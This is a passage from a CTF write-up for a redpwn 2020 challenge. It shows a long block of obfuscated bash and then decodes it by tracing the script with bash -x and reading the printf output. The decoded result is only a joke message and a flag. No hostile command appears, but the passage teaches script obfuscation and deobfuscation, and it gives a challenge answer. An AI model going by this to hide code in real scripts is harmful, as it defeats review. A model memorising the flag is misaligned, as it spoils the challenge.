(("1"7#a*"-"${!@}25#2)+${@~}47#"G")   ] "${@/Rr4^4}" ${*//\]H\"MB/xRm?y~} $((  ((-"4"5#a+-4#1"${@~}"0)+"$@"11"#""2""3")  )) "${@//Gf8u?Bn3}" $[  ((4${*%UCb@}#"1""0"-2${@/#Bkef@Ru/t$o%o.K}#"1"${*,,}1)+"${@##?Eo$}"37"#"2)   ] ${*//vG8_P9T.} ${@^^} $[ ((-46"#""${@##2hw~T2G}"1*"-"3#10)+"1"${*/87\]5ah}8${*//_=_t}#d)   ] ${@,,} $(( (("6"#11*51"#"0)+1"3"#14)   )) ${*} ${@} $[ ((-3"#"2"1"--54${*/4$f<@\\}#"${@~}"n)+4"#"12)   ] $* $[   (-(-(${*%%qi~qQ7}8${*~}#2${@}2+44#s)+41"#"n))   ] "${@}" $((  (-(-(30"#"1--54${@##wt8PKPS}#"n")+4#20))  )) "${@,}" ${*//30b~\{?/,pn\.} $[  ((4#20--"3"8$*#1)+3#${*}10)  ] "${@}" ${*%%CnV1_h;B} $[ ((${*,}-"2"#"1"${@%%Z;O.Oc3I}00+-3#1)+"${@,,}"3"${@//,n&KeTF<}"#2${*/8>nd#/94G\]zj2\}}2)   ] ${*^^} ${*#Q\]<S@iM} $((   (-(-(-6${*/&V7<}0#${!*}1+6${@//?\!T\)\!GT/\"Pxe}#1"0")+43"#"1)) )) ${*~~} ${*^^} $[   ((-41#b-"${@^^}"-4"7"#j)+"6""${@##;f1j\]Tu9}"#1"2")   ] ${*//1FJj9/w\"R;Oa} ${*} $[   ((-3#10*3#0)+"${@/7l8\"<&/.W=UU=EF}"5#1"1") ] ${@%%\`\`XT} "${@,}" $[ ((1"5"#0*-2#"1"1)+"3"${@,}3#"m")   ] $@ ${*/_$~WTi/f9TK$%_} $((  ((47#0*"2"#${@%fQDl+}0)+51#${*,,}1)   )) ${*%%d9fV-Q} $(( (("${@//a6wR}"1${*}5#0*3"1""#"$*0)+"1""7"#1)   )) ${@##8M\!$y;} $[   (-(-(-5${*,,}#"1"${*~~}2+2${*//AlWf+f*t}1#1"${@#IodB}"h)+"5"#11))  ] ${*##@v43} "${@~}" $((  ((${@%@xUH6iD\{}-3#10*-20#${@/,4:?/txQ%\.\`}2)+"${@##V@\]PIT}"3"6"#"a")  )) ${@~~} ${*,,} $((  (-(-(50#${*/ZIH\)}0--2"#"11)+1${@##uN\]\}fV}2#1)) )) ${*/\"otQPR/\}\`jr\]h,} ${*%%T\"zld} $(( ((8$*#10*${@^}-2#${*//PCQp}1"1")+1"${@/u@Cg}"2#34)   )) ${@~~} $[ (-(-(${!*}1"${@,,}"2"#"0*40#0)+1"1"#0))   ] ${*} $(( ((${*^^}-3#11*25#"1")+2#${*,,}1${@~~}110)   )) ${@^^} $((   (-(-(48#"y"-$*-14"${@%%9jfec9Y}"#2)+3#"1"22))  )) "${@~}" $((  ((-21#${*^^}e-7#30)+5"1""#"1"a") )) ${!*} $(( ((4${*/Jhoc>\"r\"}8#"1"+${@##.;lm}-4#11)+3${*~}0"${@,}"#"${@^^}"j)   )) ${*~~} $[   ((3"#""1"2--2#10${*~~}0)+${@###16zu+~e}35#d)   ] ${!*} "${@}" $((   ((-4#"1"1*"2"#${@,,}11)+3#222)  )) ${@} $* $[   ((-${@/HZeM^~/>X7L?}2#11*3#10)+61#i) ] ${*} ${*} $((   ((-53#k+-3${!@}7"#"${*/;Qlu\"=}2)+${*/WgF^iKN3}1${@/^\`f~}6"#"2"4") )) ${*/fbim} ${*/X26C\)} $(( ((50#0*26#0)+8#25) )) ${*~} ${@} $[  ((-${*}49#"b"+4#10)+${*,,}2"0"${*/8.a\!}#${@##y\{5mY}i)  ] ${*,,} $((  ((${!@}29${*##T07NyjoN}#"1"6-56#i)+3${*/k*s\!Cd\}/r7<&Rm}5"#""1")   )) ${@~} $((  (-(-(${*/qQ<\(~\}/joR<\]g\`}2#1"${@//7\]*&}"00--7#11)+5"#"13))   )) ${@^^} $[  ((-30"#"l+"6"${*//8STR/\(>\"R}#$*0)+"${@/\[aTv77s/x\`Fhf}"2#1000"1"1)  ] ${*//\)Dta1B6b/iem\)} ${*//Y^\]x;c0} $[   (("$@"5"6"#2*39#$*1)+"3"${!*}#11)   ] ${*^^} $[   ((-"3""${@~~}"#1"0"*-${*}4${*}#1"1")+5"#""${@%%-1gVAj}"12) ] ${@##\)0\{\(S} $(( (("9"${*}#0*26#0)+4${@//\{hrT\[e7}#1)  )) ${@#cvkgJ#} ${*//U~9f} $[ (-(-("3""7"#${*/*-Mxa_}2-"${@//UV>ejI/#\{\!\)\)Jq}"-"5""7""#""2")+2"#"11))   ] ${*/rPT<z8} ${*#V\"mmO} $((   ((${@%%ETMr$\{+\)}-"5""1"#l+"-"12#1"a")+${@%%->ho\]}4#"${@^}"10"1"0)  )) "${@%%nHAMo}" "$@" $[  ((-"1"7${*~}#"${@%\[~Z$\{.px}"1*61#2)+8#${*/jd_$/d+1$|}17)  ] "${@,}" "${@/\[-S\(;}" $[   ((${*^}3#10*28#${*#>6rK8}2)+22#e)  ] ${!*}
+++ printf %s '}'
+++ for VS2R4y in $[  (-(-(3${*~~}#"1""${@/&=7I2ZJ}"1+"9""#"1)+${@~~}57#0)) ] ${@#-\(>G:=l} ${@##liW$} $[  ((-2#101-2"#""1""1"1)+"5"2"${@//H34o/\]6$=7u}"#${*,,}j) ] ${@,,} ${@^^} $[ ((2${*}#100*"-"${*~}4#"1"1)+${*^}18#22) ] ${!@} ${*,} $[  (-(-(23"#""f"--42#2)+7"#"12))   ] ${*//\]Kxy14./:D.-L\(} $[  ((4"#"${*}11-2"8"#0)+11"#""1"0)   ] "${@%%J\)\)?7\(n}" "${@%%~\J2LrQ}" $((   (-(-("${@%8Yzpz@H}"-56#"1"-${*/C\oI,C:/~2^DZha}-6#11)+6${*##\!KW^\{}0${*//VEUHMT\}}#0))   )) ${@//,\)tNL} ${*} $(( (("-"2#1"1"*"2"7#2)+"5"0"#"e)  )) ${@/rI%kSy/22\!9x*UR} "${@^^}" $[   (("2"4#2*-"5""#"11)+44"#"z)   ] ${*%*SQ\`&\"} ${*~~} $(( ((-17${*~~}#1*6"0"#1)+2${@%\!ScFB}#1${!@}00)  )) ${*} ${*//asl#r:/+h^c-p:} $[  ((-5"#"${*}1"${@/e\{cE|/\!P\[4}"0*12#${*~}1)+2"3""#"l)   ] ${!@} ${*%%UE28?+&} $[  (-(-(30#h+5#13)+48#1))  ] ${*~~} ${!@} $[  (("1"7#a*"-"${!@}25#2)+${@~}47#"G")   ] "${@/Rr4^4}" ${*//\]H\"MB/xRm?y~} $((  ((-"4"5#a+-4#1"${@~}"0)+"$@"11"#""2""3")  )) "${@//Gf8u?Bn3}" $[  ((4${*%UCb@}#"1""0"-2${@/#Bkef@Ru/t$o%o.K}#"1"${*,,}1)+"${@##?Eo$}"37"#"2)   ] ${*//vG8_P9T.} ${@^^} $[ ((-46"#""${@##2hw~T2G}"1*"-"3#10)+"1"${*/87\]5ah}8${*//_=_t}#d)   ] ${@,,} $(( (("6"#11*51"#"0)+1"3"#14)   )) ${*} ${@} $[ ((-3"#"2"1"--54${*/4$f<@\\}#"${@~}"n)+4"#"12)   ] $* $[   (-(-(${*%%qi~qQ7}8${*~}#2${@}2+44#s)+41"#"n))   ] "${@}" $((  (-(-(30"#"1--54${@##wt8PKPS}#"n")+4#20))  )) "${@,}" ${*//30b~\{?/,pn\.} $[  ((4#20--"3"8$*#1)+3#${*}10)  ] "${@}" ${*%%CnV1_h;B} $[ ((${*,}-"2"#"1"${@%%Z;O.Oc3I}00+-3#1)+"${@,,}"3"${@//,n&KeTF<}"#2${*/8>nd#/94G\]zj2\}}2)   ] ${*^^} ${*#Q\]<S@iM} $((   (-(-(-6${*/&V7<}0#${!*}1+6${@//?\!T\)\!GT/\"Pxe}#1"0")+43"#"1)) )) ${*~~} ${*^^} $[   ((-41#b-"${@^^}"-4"7"#j)+"6""${@##;f1j\]Tu9}"#1"2")   ] ${*//1FJj9/w\"R;Oa} ${*} $[   ((-3#10*3#0)+"${@/7l8\"<&/.W=UU=EF}"5#1"1") ] ${@%%\`\`XT} "${@,}" $[ ((1"5"#0*-2#"1"1)+"3"${@,}3#"m")   ] $@ ${*/_$~WTi/f9TK$%_} $((  ((47#0*"2"#${@%fQDl+}0)+51#${*,,}1)   )) ${*%%d9fV-Q} $(( (("${@//a6wR}"1${*}5#0*3"1""#"$*0)+"1""7"#1)   )) ${@##8M\!$y;} $[   (-(-(-5${*,,}#"1"${*~~}2+2${*//AlWf+f*t}1#1"${@#IodB}"h)+"5"#11))  ] ${*##@v43} "${@~}" $((  ((${@%@xUH6iD\{}-3#10*-20#${@/,4:?/txQ%\.\`}2)+"${@##V@\]PIT}"3"6"#"a")  )) ${@~~} ${*,,} $((  (-(-(50#${*/ZIH\)}0--2"#"11)+1${@##uN\]\}fV}2#1)) )) ${*/\"otQPR/\}\`jr\]h,} ${*%%T\"zld} $(( ((8$*#10*${@^}-2#${*//PCQp}1"1")+1"${@/u@Cg}"2#34)   )) ${@~~} $[ (-(-(${!*}1"${@,,}"2"#"0*40#0)+1"1"#0))   ] ${*} $(( ((${*^^}-3#11*25#"1")+2#${*,,}1${@~~}110)   )) ${@^^} $((   (-(-(48#"y"-$*-14"${@%%9jfec9Y}"#2)+3#"1"22))  )) "${@~}" $((  ((-21#${*^^}e-7#30)+5"1""#"1"a") )) ${!*} $(( ((4${*/Jhoc>\"r\"}8#"1"+${@##.;lm}-4#11)+3${*~}0"${@,}"#"${@^^}"j)   )) ${*~~} $[   ((3"#""1"2--2#10${*~~}0)+${@###16zu+~e}35#d)   ] ${!*} "${@}" $((   ((-4#"1"1*"2"#${@,,}11)+3#222)  )) ${@} $* $[   ((-${@/HZeM^~/>X7L?}2#11*3#10)+61#i) ] ${*} ${*} $((   ((-53#k+-3${!@}7"#"${*/;Qlu\"=}2)+${*/WgF^iKN3}1${@/^\`f~}6"#"2"4") )) ${*/fbim} ${*/X26C\)} $(( ((50#0*26#0)+8#25) )) ${*~} ${@} $[  ((-${*}49#"b"+4#10)+${*,,}2"0"${*/8.a\!}#${@##y\{5mY}i)  ] ${*,,} $((  ((${!@}29${*##T07NyjoN}#"1"6-56#i)+3${*/k*s\!Cd\}/r7<&Rm}5"#""1")   )) ${@~} $((  (-(-(${*/qQ<\(~\}/joR<\]g\`}2#1"${@//7\]*&}"00--7#11)+5"#"13))   )) ${@^^} $[  ((-30"#"l+"6"${*//8STR/\(>\"R}#$*0)+"${@/\[aTv77s/x\`Fhf}"2#1000"1"1)  ] ${*//\)Dta1B6b/iem\)} ${*//Y^\]x;c0} $[   (("$@"5"6"#2*39#$*1)+"3"${!*}#11)   ] ${*^^} $[   ((-"3""${@~~}"#1"0"*-${*}4${*}#1"1")+5"#""${@%%-1gVAj}"12) ] ${@##\)0\{\(S} $(( (("9"${*}#0*26#0)+4${@//\{hrT\[e7}#1)  )) ${@#cvkgJ#} ${*//U~9f} $[ (-(-("3""7"#${*/*-Mxa_}2-"${@//UV>ejI/#\{\!\)\)Jq}"-"5""7""#""2")+2"#"11))   ] ${*/rPT<z8} ${*#V\"mmO} $((   ((${@%%ETMr$\{+\)}-"5""1"#l+"-"12#1"a")+${@%%->ho\]}4#"${@^}"10"1"0)  )) "${@%%nHAMo}" "$@" $[  ((-"1"7${*~}#"${@%\[~Z$\{.px}"1*61#2)+8#${*/jd_$/d+1$|}17)  ] "${@,}" "${@/\[-S\(;}" $[   ((${*^}3#10*28#${*#>6rK8}2)+22#e)  ] ${!*}
+++ printf %s '
'
dont just run it, dummy
```

Notice those printf lines. Let's grep for these lines and piece together what they're all trying to do.

```
[skat@iris:~] $ bash -x ./cmd.sh 2>&1 | grep "printf"
++ printf %s ' }~~@{$  ")   }La?cc87J##@{$   ;   }  ;  }8CC3vD/qX$t/*{$   }~~*{$   "}] "}^@{$"  y4R2SV$   "}cIqe[\(\%@{$" "}xk:W=Y2##@{$" [JzbY6E{$"   s%   ft'\''n'\'''\''i'\''r\p  { ; }*!{$ ]  )e#22+)2}8Kr6>#*{$#82*01#3}^*{$((   [$ "};(\S-[\/@{$"   "},@{$"   ]  )71}|$1+d/$_dj/*{$#8+)2#16*1"}xp.{\$Z~[\%@{$"#}~*{$7"1"-((  [$ "@$"  "}oMAHn%%@{$"   ))  )0"1"01"}^@{$"#4}]\oh>-%%@{$+)"a"1#21"-"+l#"1""5"-})\+{\$rMTE%%@{$((   (($ }Omm"\V#*{$   }8z<TPr/*{$   ]   ))11"#"2+)"2""#""7""5"-"}qJ)\)\!\{\#/Ije>VU//@{$"-2}_axM-*/*{$#"7""3"(-(-( [$ }f9~U//*{$  }#Jgkvc#@{$   ))  )1#}7e[\Trh{\//@{$4+)0#62*0#}*{$"9"(( (($ }S(\{\0)\##@{$   ] )21"}jAVg1-%%@{$""#"5+)"1"1#}*{$4}*{$-*"0"1#"}~~@{$""3"-((   [$   }^^*{$   ]   )11#}*!{$"3"+)1*$#93*2#"6"5"@$"((   [$  }0c;x]\^Y//*{$  })\mei/b6B1atD)\//*{$  ]  )1"1"0001#2"}fhF`\x/s77vTa[\/@{$"+)0*$#}R"\>(\/RTS8//*{$"6"+l"#"03-((  [$ }^^@{$ ))   ))31"#"5+)11#7--00"}&*]\7//@{$"1#2}`\g]\<Roj/}\~(\<Qq/*{$(-(-(  (($  }~@{$  ))   )"1""#"5}mR&<7r/}\dC!\s*k/*{$3+)i#65-6"1"#}NojyN70T##*{$92}@!{$((  (($  },,*{$ ]  )i}Ym5{\y##@{$#}!\a.8/*{$"0"2},,*{$+)01#4+"b"#94}*{$-((  [$   }@{$   }~*{$ )) )52#8+)0#62*0#05(( (($  })\C62X/*{$  }mibf/*{$ )) )"4"2"#"6}~f`\^/@{$1}3NKi^FgW/*{$+)2}="\ulQ;/*{$"#"7}@!{$3-+k#35-((   (($  }*{$ }*{$  ] )i#16+)01#3*11#2}?L7X>/~^MeZH/@{$-((   [$  *$  }@{$   ))  )222#3+)11},,@{$#"2"*1"1"#4-((   (($   "}@{$" }*!{$ ]   )d#53}e~+uz61###@{$+)0}~~*{$01#2--2"1""#"3((   [$ }~~*{$   ))   )j"}^^@{$"#"},@{$"0}~*{$3+)11#4-}ml;.##@{$+"1"#8}"\r"\>cohJ/*{$4(( (($   }*!{$   )) )"a"1"#""1"5+)03#7-e}^^*{$#12-((  (($ "}~@{$"  ))  ))22"1"#3+)2#"}Y9cefj9%%@{$"41-*$-"y"#84(-(-(   (($   }^^@{$   ))   )011}~~@{$1},,*{$#2+)"1"#52*11#3-}^^*{$(( (($  }*{$ ]   ))0#"1"1+)0#04*0"#"2"},,@{$"1}*!{$(-(-( [$   }~~@{$ ))   )43#2"}gC@u/@{$"1+)"1"1}pQCP//*{$#2-}^@{$*01#*$8(( (($ }dlz"\T%%*{$  },h]\rj`\}\/RPQto"\/*{$   )) ))1#2}Vf}\]\Nu##@{$1+)11"#"2--0})\HIZ/*{$#05(-(-(  (($   },,*{$ }~~@{$ ))  )"a"#"6"3"}TIP]\@V##@{$"+)2}`\.\%Qxt/?:4,/@{$#02-*01#3-}{\Di6HUx@%@{$((  (($ "}~@{$" }34v@##*{$   ]  ))11#"5"+)h"}BdoI#@{$"1#1}t*f+fWlA//*{$2+2}~~*{$"1"#},,*{$5-(-(-(   [$   };y$!\M8##@{$  ))   )1#"7""1"+)0*$"#""1"3*0#5}*{$1"}Rw6a//@{$"(( (($   }Q-Vf9d%%*{$  ))   )1},,*{$#15+)0}+lDQf%@{$#"2"*0#74((  (($   }_%$KT9f/iTW~$_/*{$  @$  ]   )"m"#3},@{$"3"+)1"1"#2-*0#"5"1(( [$  "},@{$"   }TX`\`\%%@{$ ] )"1"1#5"}FE=UU=W./&<"\8l7/@{$"+)0#3*01#3-((   [$ }*{$   }aO;R"\w/9jJF1//*{$   ]   )"2"1#"}9uT]\j1f;##@{$""6"+)j#"7"4-"}^^@{$"-b#14-((   [$   }^^*{$ }~~*{$ )) ))1"#"34+)"0"1#}exP"\/TG!\)\T!\?//@{$6+1}*!{$#0}<7V&/*{$6-(-(-(   (($ }Mi@S<]\Q#*{$ }^^*{$   ]   )2}}\2jz]\G49/#dn>8/*{$2#"}<FTeK&n,//@{$"3"},,@{$"+)1#3-+00}I3cO.O;Z%%@{$"1"#"2"-},*{$(( [$ }B;h_1VnC%%*{$   "}@{$"  ]  )01}*{$#3+)1#*$8"3"--02#4((  [$  }.\np,/?{\~b03//*{$  "},@{$" ))  ))02#4+)"n"#}SPKP8tw##@{$45--1"#"03(-(-(  (($  "}@{$"   ]   ))n"#"14+)s#44+2}@{$2#}~*{$8}7Qq~iq%%*{$(-(-(   [$   *$   ]   )21"#"4+)n"}~@{$"#}\\@<f$4/*{$45--"1"2"#"3-(( [$  }@{$ }*{$ ))   )41#"3"1+)0"#"15*11#"6"(( (($   },,@{$ ]   )d#}t_=_//*{$8}ha5]\78/*{$"1"+)01#3"-"*1"}G2T~wh2##@{$""#"64-(( [$  }^^@{$   }.T9P_8Gv//*{$ ]   )2"#"73"}$oE?##@{$"+)1},,*{$"1"#}K.o%o$t/uR@fekB#/@{$2-"0""1"#}@bCU%*{$4((  [$  "}3nB?u8fG//@{$" ))  )"3""2""#"11"@$"+)0"}~@{$"1#4-+a#5"4"-((  (($ }~y?mRx/BM"\H]\//*{$  "}4^4rR/@{$" ]   )"G"#74}~@{$+)2#52}@!{$"-"*a#7"1"((  [$  }@!{$ }~~*{$   ]  ))1#84+)31#5+h#03(-(-(  [$   }&+?82EU%%*{$   }@!{$   ]   )l"#""3"2+)1}~*{$#21*0"}4[\P!\/|Ec{\e/@{$"1}*{$"#"5-((  [$ }:p-c^h+/:r#lsa//*{$ }*{$ ))  )00}@!{$1#}BFcS!\%@{$2+)1#"0"6*1#}~~*{$71-(( (($  }~~*{$ }"\&`\QS*%*{$   ]   )z"#"44+)11"#""5"-*2#4"2"((   [$   "}^^@{$" }RU*x9!\22/ySk%Ir/@{$ ))  )e"#"0"5"+)2#7"2"*"1"1#2"-"(( (($  }*{$ }LNt)\,//@{$ ))   ))0#}}\TMHUEV//*{$0}{\^WK!\##*{$6+)11#6-}ahZD^2~/:C,Io\C/*{$-"1"#65-"}H@zpzY8%@{$"(-(-(   (($  "}QrL2J\~%%@{$"  "}n(\7?)\)\J%%@{$"  ]   )0"1""#"11+)0#"8"2-11}*{$"#"4((  [$   }(\L-.D:/.41yxK]\//*{$  ]   ))21"#"7+)2#24--"f""#"32(-(-(  [$ },*{$ }@!{$ ] )22#81}^*{$+)1"1"#4}~*{$"-"*001#}*{$2(( [$ }^^@{$   },,@{$   ] )j},,*{$#"}u7=$6]\/o43H//@{$"2"5"+)1"1""1""#"2-101#2-((  [$  }$Wil##@{$  }l=:G>(\-#@{$  ] ))0#75}~~@{$+)1"#""9"+1"}JZ2I7=&/@{$""1"#}~~*{$3(-(-(  [$  ni  y4R2SV  rof &&   },,@{$  )  }^*{$  g  }^^*{$ y   }g$U-b9%@{$   j   }*!{$   n }~@{$  *$  u   "}(\whfI/@{$"  "}@{$"  z  }RH|<=z##@{$   }~~@{$  '\''ax\'\''$   }^^@{$  a }~*{$ }dS^Db6G}\%*{$   h   }@{$   }^*{$ r  "}m&Jk:b?/WBG02h}\_/@{$"  \ }T|qd//*{$  }OM`\6.o%@{$   {\  }H%ynnO(\u//*{$   }g8Gv|R~/*{$  _\  }-:zfUz%%*{$ }\   })\#?1{\OK/@{$ *$  i  }__b5W:RE//@{$  s   }%<Oy{\I//*{$ }"\-iPfz]\g/ug|0w8/*{$   l }L#vh$/{\wLz8/@{$ }60-tI0<%%*{$ 3  "}^@{$" o }euc*##@{$   c  }~~*{$  }~~*{$  d }_h)\)\{\/i$V2/@{$   e   *$   }(\&`\C?*3%%@{$   ,\ "}@{$" }~@{$  t   "},@{$"   }^^*{$ #\  }*^RXtV##*{$   m  "}@{$"   f "},@{$"   (=JzbY6E     ($"  <<< },,*{$   }C0#Y%%*{$  HSAB$ "}|=1SW.//@{$"   "@$" '
+++ printf %s e
+++ printf %s c
+++ printf %s h
+++ printf %s o
+++ printf %s ' '
+++ printf %s d
+++ printf %s o
+++ printf %s n
+++ printf %s t
+++ printf %s ' '
+++ printf %s j
+++ printf %s u
+++ printf %s s
+++ printf %s t
+++ printf %s ' '
+++ printf %s r
+++ printf %s u
+++ printf %s n
+++ printf %s ' '
+++ printf %s i
+++ printf %s t
+++ printf %s ,
+++ printf %s ' '
+++ printf %s d
+++ printf %s u
+++ printf %s m
+++ printf %s m
+++ printf %s y
+++ printf %s ' '
+++ printf %s '#'
+++ printf %s ' '
+++ printf %s f
+++ printf %s l
+++ printf %s a
+++ printf %s g
+++ printf %s '{'
+++ printf %s u
+++ printf %s s
+++ printf %s 3
+++ printf %s _
+++ printf %s z
+++ printf %s s
+++ printf %s h
+++ printf %s ,
+++ printf %s _
+++ printf %s d
+++ printf %s u
+++ printf %s m
+++ printf %s m
+++ printf %s y
+++ printf %s '}'
+++ printf %s '
```

Now we're talking! You can see that flag towards the end there. All we have to do is piece it together and we have the flag.

```
flag{us3_zsh,_dummy}
```

(No, I won't use zsh.)

Those are the writeups that I have to offer for redpwn 2020. They were of course not all of the challenges solved, just the ones that I thought would be cool to write about and add to this repository. Until next time, happy hacking!
